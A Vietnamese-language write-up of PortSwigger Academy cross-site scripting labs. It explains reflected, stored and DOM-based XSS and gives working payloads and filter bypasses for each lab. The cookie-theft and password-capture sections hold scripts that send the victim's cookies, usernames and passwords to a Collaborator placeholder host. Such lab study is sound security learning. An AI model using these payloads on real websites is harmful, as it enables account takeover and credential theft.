# Cross-site scripting
## Khái niệm:
Cross-site scripting (XSS) là một lỗ hỏng web cho phép attacker có thể tấn công bằng cách can thiệp vào tương tác của users với website. Đối với website có lỗ hỏng XSS, attacker có thể chèn mã độc vào website, với mục đích chính nhằm đánh cắp thông tin user, từ đó có quyền truy cập vào các tài khoản user khác. Thông thường, ngôn ngữ JavaScript được sử dụng để xây dựng payload do đa phần chức năng các trang web được viết bằng JavaScript.

XSS hoạt động bằng cách "thao túng" website, sao cho bên cạnh việc user truy cập vào website, thì browser của user còn thực thi cả mã độc JavaScript. Khi mã độc thực thi thành công, attacker có thể can thiệp vào việc truy cập và khai thác dữ liệu. 

Về cách mà browser có thể tự động chạy payload, ta cần phải hiểu cấu trúc của 1 trang web. Thông thường, 1 trang web cấu tạo bởi 3 ngôn ngữ:
- HTML: Chịu trách nhiệm cho phần nội dung.
- CSS: Chịu trách nhiệm cho bố cục trang web.
- JavaScript: Chịu trách nhiệm cho hành vi của các chức năng của trang web.

Khi ta nhìn vào source code của 1 trang web, ta sẽ thấy tag `<script>` của HTML luôn chứa các câu lệnh JavaScript. Tag này giúp thông báo cho Browser biết vị trí cần phải thực thi các câu lệnh JS.

Quay trở lại về XSS, payload XSS cho JavaScript đều chứa tag `<script>`, thì khi mà payload này được nhúng (embed) vào website và user khác vô tình load trang web này, browser của họ sẽ coi payload đó là một phần của trang web và thực thi mã độc. Đương nhiên, payload độc sẽ không chỉ chứa keyword tag `<script>` mà sẽ còn ở nhiều dạng khác.


Các kiểu tấn công XSS sẽ được đề cập đến trong các Lab dưới đây.

## Lab:
### Lab: Reflected XSS into HTML context with nothing encoded
Kiểu tấn công đầu tiên của XSS là Reflected XSS. Lỗ hỏng này xảy ra khi 1 trang web không validate Request input mà trả về ngay lập tức Response, ví dụ như chức năng tìm kiếm của trang web, thì kẻ tấn công có thể xây dựng payload cho phần input, rồi gửi URL đó cho nạn nhân. Nếu nạn nhân vô tình bấm vào URL đấy thì Browser sẽ thực thi payload trên.

Ở Lab này, thanh tìm kiếm của trang web là nơi bị dính lỗi XSS khi ta có thể nhập trực tiếp payload vào đó và thực thi.


### Lab: Stored XSS into HTML context with nothing encoded
Kiểu tấn công thứ hai của XSS là Stored XSS. Lỗ hỏng xảy ra khi website lưu trực tiếp dữ liệu từ input người dùng vào hệ thống mà không có cơ chế xử lý nào, ví dụ như phần bình luận của người dùng. Bất cứ ai truy cập vào trang web chứa payload của attacker đang được lưu ở phần comment đều sẽ vô tình chạy payload đó. 

Ở lab này, cũng với payload: `<script>alert(0)</script>`, ta nhập vào phần comment của bài blog bất kì. Bất cứ khi nào ta reload trang web hiện phần comment trên, payload sẽ đều được thực thi.



### Lab: DOM XSS in `document.write` sink using source `location.search`
Như tên lab, lỗ hỏng được đặt ở hàm xử lý search query:
```JavaScript
function trackSearch(query) {
    document.write('');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    trackSearch(query);
}
```

Ở đây, dữ liệu được lấy thẳng từ hộp thoại Search qua `location.search`, sau đó được ghi trực tiếp vào hàm trackSearch, cụ thể là bằng `document.write`. Ta có thể inject dễ dàng bằng payload: `1"><script>alert(0)</script>`. Payload này sẽ kết thúc tag `img` để sang tag tiếp theo là tag `script` và thực thi lệnh trong đó:





### Lab: DOM XSS in `innerHTML` sink using source `location.search`
Lỗ hỏng được đặt ở script xử lý input ở search box:
```JavaScript
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}
```

Ở đây, lỗ hỏng nằm ở `innerHTML` bởi tuy nó chặn việc thực thi tag `<script>`, vẫn còn nhiều cách khác thực thi code JS, 1 trong số đó là trigger lỗi bằng payload ``. Do giá trị `src` của `` không phải 1 bức ảnh thực sự nên nó chắc chắn xảy ra lỗi, từ đó doạn code ở `onerror` sẽ trigger.



### Lab: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source
Lỗ hỏng ở lab này được đặt trong page của `Submit feedback`:
```javaScript
<div class="is-linkback">
    <a id="backLink" href="/">Back</a>
</div>
<script>
    $(function() {
        $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
    });
</script>
```

Ở trạng thái mặc định, param `returnPath` luôn trỏ tới trang đầu tiên của web. Nhưng nếu ta thay đổi giá trị từ "/" sang một số bất kì ở thanh URL, giá trị trong `href` cũng sẽ thay đổi theo, và đường link hiển thị khi ta đưa con trỏ vào nút "Back" cũng thay đổi:

 



Lợi dụng điều này, ta có thể chèn câu lệnh JavaScript `javascript:alert(document.cookie);` vào chức năng nút `Back`:

 



### Lab: Reflected XSS into attribute with angle brackets HTML-encoded
Thông thường, khi một web tồn tại lỗi XSS, ta có thể escape tag bằng cách `">$payload$`. Những đa phần các trường hợp, website sẽ chặn hoặc encode dấu `<>`, giống như lab này:



Ta có thể bypass filter bằng cách sử dụng các keyword có thể embed trong tag, ví dụ như `onfocus` và `autofocus`:



Keyword `onfocus` sẽ theo dõi sự thay đổi nằm trong tag mà ta sử dụng, còn `autofocus` sẽ khiến browser luôn focus vào tag input, ở đây là search box. Khi ta nhấp vào ô search box sẽ tạo ra thay đổi ở đó, khiến trigger payload.

### Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded
Lỗ hỏng ở lab này nằm trong phần comment blog. Khi ta nhập các param rồi `Post Comment`, ta sẽ nhận thấy rằng đường link embed với tên author là của param Website:



Đối với lỗ hỏng này, ta không cần thiết phải escape tag, chỉ cần nhập payload javascript vào param website `javascript:alert(0)`, sau đó `Post comment` lần nữa là được.



Khi này bất cứ ai nhấp vào tên Author đều sẽ kích hoạt Payload.



### Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded
```JavaScript
var searchTerms = 'a';
document.write('');
```
Đối với các vuln XSS đặt giữa 2 dấu `''`, ta có thể dễ dàng bypass bằng cách chèn payload có cấu trúc `'$payload$//` là được.



### Lab: DOM XSS in `document.write` sink using source `location.search` inside a select element
```JS
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
```
Do biến `store` lấy trực tiếp dữ liệu `storeId` từ URL bằng `location.search`, ta có thể inject payload vào biến này để escape tag `<option>`: `/product?productId=2&storeId=Paris</option><script>alert(0)</script>`

### Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
Tiếp tục khai thác ở ô tìm kiếm của trang, ta sẽ nhận thấy trang Web này sử dụng AngularJS qua việc tag `body` chứa attribute `ng-app`.



Đối với AngularJS, ta có thể sử dụng payload sau để thực thi: `{{$on.constructor('alert(0)')()}}`





### Lab: Reflected DOM XSS
```JavaScript
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
    ...
```
Đây là source code nằm trong `/resources/js/searchResults.js`. Nhìn vào đây, ta có thể thấy xuất hiện lệnh `eval()` dùng để tạo biến qua việc lấy giá trị từ `this.responseText`. Ta có thể tìm thấy Response khi mở tab Network:



Response này đang ở dạng Json, và vì ta không thấy bất cứ hàm nào xử lý input, nên ta mặc định input chỉ được xử lý bởi json. Khi này, ta có thể escape json bằng payload: `\"}//`



Khi ta nhập 1 dấu syntax vào input, Json sẽ tự động thêm dấu `\` để biến syntax thành string. Nhưng trong trường hợp này input là `\"}`, thì khi Json thêm dấu `\` vào, nó sẽ vô tình đóng ngoặc kép và kết thúc khai báo giá trị key, từ đó có thể escape JSON. Dấu `//` sẽ biến phần kí tự tự động thêm vào thành comment.

Khi này, ta chỉ cần thêm `\"};alert(0);` là hoàn thành lab.



### Lab: Stored DOM XSS
```JavaScript
function escapeHTML(html) {
    return html.replace('<', '&lt;').replace('>', '&gt;');
}
...
let newInnerHtml = firstPElement.innerHTML + escapeHTML(comment.author)
                firstPElement.innerHTML = newInnerHtml
...
let commentBodyPElement = document.createElement("p");
                commentBodyPElement.innerHTML = escapeHTML(comment.body);
```

Để tránh việc xảy ra Stored XSS, các dev sẽ filter `<>` nằm trong input người dùng. Tuy nhiên, nếu filter không đúng cách, thì vẫn sẽ có cách bypass. Như ở trường hợp này, hàm escapeHTML tuy là có encode `<>`, nhưng nó làm 1 lần duy nhất ở lượt đầu tiên hàm `replace()` quét qua string. 

Nói cách khác, nếu trong payload xuất hiện 2 lần `<>`, thì hàm `escapeHTML` sẽ không encode `<>` xuất hiện lần 2. Ta có thể xây dựng payload để đặt ở phần Comment hoặc Author: `<>`




### Lab: DOM XSS in jQuery selector sink using a hashchange event
```HTML
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
    });
</script>
```
Đoạn code này nằm trong source code page đầu của Lab. Ta có thể thấy lỗ hỏng nằm ở `window.location.hash.slice(1)` khi nó lấy trực tiếp dữ liệu URL sau `#`, rồi JQuery trực tiếp thực thi câu lệnh tại đó. Nếu data ở Hash là 1 câu lệnh HTML như, ``, nó sẽ được đẩy trực tiếp tới JQuery và thực thi ngay lập tức.



Từ đây, ta có thể tạo payload để gửi tới nạn nhân: `<iframe src="https://0a4600e204baea2c8097300900ce0057.web-security-academy.net/#" onload="this.src+='%3Cimg%20src=1%20onerror=print()%3E'"></iframe>`



### Lab: Reflected XSS into HTML context with all tags blocked except custom ones
Lab này chặn toàn bộ tất cả các tag có sẵn của HTML, bao gồm cả `<script> ,<a>, <p>, ...`



Tuy nhiên ta vẫn có thể sử dụng custom tag:



Khi này, ta có thể trigger XSS bằng payload sau:
`<xss+id=x+onfocus=alert(1)+tabindex=1>#x`



Ở đây, `tabindex` đóng vai trò chỉ định vị trí tab, khiến cho browser focus vào tag, từ đó attr `onfocus` hoạt động. Nếu không có `tabindex`, toàn bộ attr của custom tag sẽ không hoạt động, dù cho được trigger:



Sử dụng payload trên, ta gửi exploit tới nạn nhân bằng script:
```HTML
<script>
location = 'https://<Lab-ID>/?search=%3Cxss+id=x+onfocus=alert(document.cookie)+tabindex=1%3E#x'
</script>
```



### Lab: Reflected XSS with some SVG markup allowed
Lab này chặn đa phần các tag như `<script>`, ``,... Để có thể biết được tag nào có thể sử dụng được, ta sẽ sử dụng Burp Intruder để biết các tag có thể sử dụng. Danh sách các tag ta có thể lấy từ [XSS cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) của PortSwigger.



Sau khi kiểm tra hết các tag, ta sẽ kiếm tra attribute để tìm attr nào không bị cấm.



Biết được attribute có thể sử dụng là `onbegin`, ta sẽ kết hợp với 2 tag là `<svg>` và `<animatetransform>` để tạo payload: `<svg><animatetransform+onbegin=alert(1)>`



### Lab: Reflected XSS with event handlers and href attributes blocked
Lab này yêu cầu ta phải tạo được nút Click, nhưng attribute href lại bị chặn:



Ta có thể thử lách filter bằng cách tạo attribute custom có tên "href" rồi gắn chức năng cho nó: `search=<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>`



### Lab: Reflected XSS in canonical link tag

"Canonical" trong tên của lab này là chỉ loại tag được tạo ra nhằm mục đích khai báo URL gốc bị trùng lặp nội dung với công cụ tìm kiếm.

Ở lab này, ta thấy lỗ hỏng nằm ở tag "canonical" khi ta có thể chèn param vào đó.



Khi này ta có thể thêm payload vào URL của trang web để thực hiện XSS: `HTTPS:///<LAB-ID>/?%27accesskey=%27x%27onclick=%27alert(1)%27`





### Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped
```HTML
<script>
    var searchTerms = 'a';
    document.write('');
</script>
```

Đây là script mà source code sử dụng cho thanh tìm kiếm. Ta có thể dễ dàng bypass bằng cách đóng tag `<script>` rồi mở thêm tag `<script>` khác để thực hiện XSS:

```HTML
<script>var searchTerms = '\'</script>
<script>alert(0)</script>
';
document.write('');
</script>
```



### Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

```HTML
<script>
var searchTerms = '<input>';
document.write('');
</script>
```
                   
Tương tự như Lab `Reflected XSS into a JavaScript string with angle brackets HTML encoded`, ta sẽ cần thêm việc bypass dấu `''` bằng cách sử dụng payload: `\';alert(0)//`



Khi hệ thống đọc input thấy xuất hiện dấu `'`, hệ thống sẽ tự động thêm dấu `\` vào đằng trước để tránh việc đóng dấu nháy đơn. Tuy nhiên, nếu không được thiết kế cẩn thận thì ta có thể bypass bằng việc sử dụng `\'`. Khi này, hệ thống sử tự động thêm dấu `\` vào đằng trước thành `\\'`, vô tình đóng khung nháy đơn, mở đường cho payload phía sau.

### Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
```HTML
<a id="author" href="<website>" onclick="var tracker={track(){}};tracker.track('<website>');">author</a>
```

Đây là script handle liên kết website khi ta sử dụng chức năng `post comment`. Lab này escape các dấu như `'` hay `\`, nên ta cần bypass theo cách khác. 

Nhờ tính nắng tự động HTML-decode của trình duyệt, ta có thể chuyển `'` -> `&apos;`, từ đó xây dựng được payload: `https://foo?&apos;-alert(1)-&apos;`. Dấu `-` ở đây đóng vai trò là một toán tử phép trừ, tức là yêu cầu browser thực thi phép trừ `https://foo?&apos;` cho `alert(1)`, mà vì `alert(1)` là một function nên browser sẽ cần phải thực thi nó trước khi trừ, tức là thực hiện XSS thành công.



### Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

```HTML
<h1 id="searchMessage"></h1>
<script>
    var message = `0 search results for '<input>'`;
    document.getElementById('searchMessage').innerText = message;
</script>
<hr>
```

Khi ta nhập kí tự vào thanh search của trang web, các kí tự đó sẽ được hiển thị bên cạnh template của trang web. Khi này, ta bypass bằng cách sử dụng `${...}` để nhúng đoạn mã JavaScript: `${alert(1)}`. 



### Lab: Exploiting cross-site scripting to steal cookies
Lab này chứa lỗ hỏng Stored XSS nằm ở phần comment.

Do nạn nhân sẽ luôn check phần comment, ta có thể chèn payload ở phần comment để browser nạn nhân gửi cookie tới attacker:
```HTML
<script>
fetch('https://<BurpCollaboration-domain>',{
method: 'POST', 
mode: 'no-cors',
body: document.cookie
});
</script>
```



Nhập 2 cookie đó vào browser và ta đã có quyền truy cập vào tài khoản admin:



### Lab: Exploiting cross-site scripting to capture passwords
Cùng với phương pháp tương tự trên, nhưng khi này ta sẽ sử dụng payload khác để lấy mật khẩu từ trình tự động điền mật khảu (Passwod Autofill):

```HTML
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length) fetch('https://<BurpCollaboration-domain>',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```



### Lab: Reflected XSS in a JavaScript URL with some characters blocked
Lỗ hỏng của lab này nằm ở chức năng quay về blog chính:
```HTML
<div class="is-linkback">
                    <a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5'}).finally(_ => window.location = '/')">Back to Blog</a>
</div>
```
Giả dụ đường link của 1 bài blog là `https://<Lab-ID>/post?postId=5`, thì đoạn code trên sẽ lấy trực tiếp `/post?postId=5` từ URL. Khi này, ta có thể escape `{}` bằng cách: `https://<Lab-ID>/post?postId=5&'},...,{id:'`

Trong bài viết [XSS without parentheses and semi-colons](https://portswigger.net/research/xss-without-parentheses-and-semi-colons), có đề cập đến cách sử dụng throw để trigger alert bằng cách:
```HTML
<script>throw onerror=alert,'some string',123,'haha'</script>
```

Ta có thể áp dụng nó vào payload: `https://<Lab-ID>/post?postId=5&'},x=x=>{throw onerror=alert,1337},toString=x,window='',{x:'`. Vì script đang nằm trong `javascript:`, nên ta phải sử dụng `=>` để tạo function thì mới sử dụng được `throw`, còn lại `toString` và `window` có vai trò trigger function hoạt động bằng cách ép việc chuyển đổi sang string trong attribute `window`.

